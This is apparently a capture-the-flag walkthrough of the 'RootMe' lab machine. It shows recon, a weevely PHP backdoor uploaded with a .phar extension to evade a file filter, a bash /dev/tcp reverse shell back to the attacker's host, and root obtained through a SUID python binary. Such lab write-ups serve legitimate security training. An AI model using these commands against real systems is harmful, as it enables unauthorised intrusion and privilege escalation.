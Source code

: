 # Recon
---

## Autorecon

```bash
┌──(kali㉿kali)-[~/thm]
└─$ sudo $(which autorecon) 10.10.148.99 -v
[*] Identified service ssh on tcp/22 on 10.10.148.99
[*] Identified service http on tcp/80 on 10.10.148.99
```

## 80 - HackIT - Home

### Info

![](attachment/b5d7d01f2bc03a41484b26a9b8d4d813.png)

### Dir

```bash
┌──(kali㉿kali)-[~/thm]
└─$ feroxbuster -u http://10.10.148.99 --burp
301      GET        9l       28w      314c http://10.10.148.99/uploads => http://10.10.148.99/uploads/
301      GET        9l       28w      310c http://10.10.148.99/css => http://10.10.148.99/css/
200      GET      105l      188w     1697c http://10.10.148.99/css/home.css
200      GET      100l      161w     1611c http://10.10.148.99/css/panel.css
301      GET        9l       28w      309c http://10.10.148.99/js => http://10.10.148.99/js/
301      GET        9l       28w      312c http://10.10.148.99/panel => http://10.10.148.99/panel/
200      GET       11l       22w      263c http://10.10.148.99/js/maquina_de_escrever.js
200      GET       25l       44w      616c http://10.10.148.99/
```

# Get User & Root 
---

An upload page

![](attachment/c4c227f4e33c6de746619bc74db74b98.png)

Generate weevly backdoor

```bash
┌──(kali㉿kali)-[~/thm]
└─$ weevely generate x w
Generated 'w' with password 'x' of 687 byte size.
```

It will block php files

![](attachment/0fe0e6d36edb64a9d9ed51c89a121e27.png)

Use `.phar` to bypass

```bash
┌──(kali㉿kali)-[~/thm]
└─$ mv w.php w.phar
```

Successfully uploaded

![](attachment/2e21d688d28af1fcd7573b1270ea9af7.png)

Reverse shell

```bash
┌──(kali㉿kali)-[~/thm]
└─$ weevely http://10.10.148.99/uploads/w.phar x
www-data@rootme:/var/www/html/uploads $ /bin/bash -c "/bin/bash -i >& /dev/tcp/10.11.19.145/1111 0>&1"
```

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.148.99] 49580
bash: cannot set terminal process group (913): Inappropriate ioctl for device
bash: no job control in this shell
www-data@rootme:/var/www/html/uploads$ python3 -c "import pty;pty.spawn('/bin/bash')"
<ads$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@rootme:/var/www/html/uploads$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 1111

www-data@rootme:/var/www/html/uploads$ find / -type f -perm -u=s+ 2>/dev/null
...
/usr/bin/python
...

www-data@rootme:/var/www/html/uploads$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
bash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```